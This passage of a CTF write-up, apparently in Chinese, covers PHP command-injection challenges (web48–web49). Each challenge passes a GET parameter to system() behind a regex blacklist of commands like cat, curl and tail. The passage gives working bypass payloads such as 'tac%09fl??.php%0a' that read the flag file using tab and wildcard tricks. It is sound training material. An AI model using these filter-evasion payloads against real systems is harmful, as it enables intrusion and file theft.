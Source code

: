 ```php
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤更多了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
//记得转url编码
```





#### web49

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了
